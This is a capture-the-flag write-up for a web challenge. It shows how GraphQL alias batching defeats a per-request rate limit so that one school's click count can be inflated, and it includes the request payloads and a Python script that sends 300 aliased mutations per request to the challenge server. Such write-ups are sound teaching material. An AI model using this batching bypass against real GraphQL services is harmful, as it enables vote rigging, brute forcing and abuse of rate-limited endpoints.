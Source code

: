 # Best Schools [177 solves] [50 points]

```
Make sure you get the 'Flag CyberSecurity School' in first place and you'll get your reward!
```

Our goal to make 'Flag CyberSecurity School' in the first place

![](https://i.imgur.com/NhoNgUe.png)

Initially, 'Flag CyberSecurity School' has 0 click, and we have to make it larger than 1337, so I just try to click it

It will send a POST request to /graphql with this :

```
{"query":"mutation { increaseClickSchool(schoolName: \"Flag CyberSecurity School\"){schoolId, nbClick} }"}
```

It is using graphql mutation to call increaseClickSchool() with the school name

If I click it once more, it will return error saying we are too fast :

```
{"code":429,"error":"You're going too fast !"}
```

So it has rate limiting that limit how fast we can click, it allows me to click again after around 1 minute, which is quite slow

The instance will be shutdown 45 minutes after start, so clicking it once per minute is not gonna solve this

I'm trying to call `increaseClickSchool()` multiple times in one request, however I'm not familiar with graphql, I tried to have put multiple `increaseClickSchool()` inside `mutation {}`, but it didn't work

So I just did some googling, and find out actually I can use alias to put multiple function calls inside one `mutation {}`

Then I will test it with this :

```
{"query":"mutation { first: increaseClickSchool(schoolName: \"Flag CyberSecurity School\"){schoolId, nbClick}    second: increaseClickSchool(schoolName: \"Flag CyberSecurity School\"){schoolId, nbClick}}"}
```

```
{"data":{"first":{"schoolId":3,"nbClick":5},"second":{"schoolId":3,"nbClick":6}}}
```

It works, we have clicked the school twice in one request, so we can make a script to automate this and have many `increaseClickSchool()` inside `mutation {}` in one request

However, if I put too much `increaseClickSchool()` in one request, it will say the payload is too large, so I will put 300 `increaseClickSchool()` in one request, and we can solve this in a few minutes :

```python
import requests

query = {"query": "mutation { increaseClickSchool(schoolName: \"Flag CyberSecurity School\"){schoolId, nbClick} }"}

content = ''
for i in range(300):
	name = 'a' * (i + 1)
	content += name + ': ' + "increaseClickSchool(schoolName: \"Flag CyberSecurity School\"){schoolId, nbClick} "
	


query['query'] = 'mutation { '+ content +' }'
print(query)

burp0_url = "http://dyn-02.heroctf.fr:10498/graphql"
burp0_headers = {}
burp0_json=query
res = requests.post(burp0_url, headers=burp0_headers, json=burp0_json)
print(res.text)
```

After a few minutes we have enough clicks :
![](https://i.imgur.com/hYkyOD5.png)

So we can just make a GET request to /flag :

```
{"data":"Hero{gr4phql_b4tch1ng_t0_byp4ss_r4t3_l1m1t_!!}"}
```